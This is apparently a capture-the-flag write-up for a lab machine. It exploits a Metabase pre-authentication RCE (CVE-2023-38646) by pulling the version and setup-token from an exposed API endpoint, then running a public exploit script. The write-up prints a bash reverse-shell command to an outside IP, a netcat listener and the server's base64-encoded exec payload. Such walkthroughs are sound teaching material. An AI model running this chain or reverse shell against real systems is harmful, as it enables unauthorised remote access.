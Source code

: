 ![Desktop View](AnalyticsSubdomainPage.png)

We find a Login page and once again the name *`Metabase`*, i never heard about it, so i searched it.

>**Metabase** is a open-source product with a lot of tools to simplify business intelligence, from embeddable charts and interactive **dashboards, to GUI and SQL** editors, to auditing, **data sandboxing** and more.

Checking for any public vuln associated with *Metabase* i found a critical **Pre-Authenticated RCE** working in 0.46.6 version, so i have to find a way to detect the version, after a bit of research i found there is a exposed API endpoint that reveals the version and also the `setup-token`, the main cause of why we can get RCE.

In the following endpoint: ***http://data.analytical.htb/api/session/properties*** and filtering by the word `version`, we see the next string:

```json
"version":{"date":"2023-06-29","tag":"v0.46.6"
```

So it should be vulnerable, the next exploit allow us to inject a command of our choice:

-  **Exploit**: [https://github.com/Pyr0sec/CVE-2023-38646/blob/main/exploit.py](https://github.com/Pyr0sec/CVE-2023-38646/blob/main/exploit.py)

It asks for the next arguments:

-  **-u**: Target URL
-  **-t**: Setup-Token
-  **-c**: Command

We can find the `setup-token` inside the mentioned API endpoint by filtering for the word `setup-token`, we will see the next string:

```json
"setup-token":"249fa03d-fd94-4d5b-b94f-b4ebf3df681f"
```

So now we can run the exploit, the final command looks like this:

```bash
python3 exploit.py -u http://data.analytical.htb -t 249fa03d-fd94-4d5b-b94f-b4ebf3df681f -c 'bash -i >& /dev/tcp/10.10.16.4/443 0>&1'
```

Before running it, set a listener in the specified port, in my case port `443`.

```bash
nc -nlvp 443
```

After executing, the script show us the response of the server.

```bash
 python3 exploit.py -u http://data.analytical.htb -t 249fa03d-fd94-4d5b-b94f-b4ebf3df681f -c 'bash -i >& /dev/tcp/10.10.16.4/443 0>&1'

Payload sent!

NOTE: Make sure to open a listener on the specifed port and address if you entered a reverse shell command.

RESPONSE:
{"message":"Error creating or initializing trigger \"PWNSHELL\" object, class \"..source..\", cause: \"org.h2.message.DbException: Syntax error in SQL statement \"\"//javascript\\\\000ajava.lang.Runtime.getRuntime().exec('bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNi40LzQ0MyAwPiYx}|{base64,-d}|{bash,-i}')\\\\000a\"\" [42000-212]\"; see root cause for details; SQL statement:\nSET TRACE_LEVEL_SYSTEM_OUT 1 [90043-212]"}
```
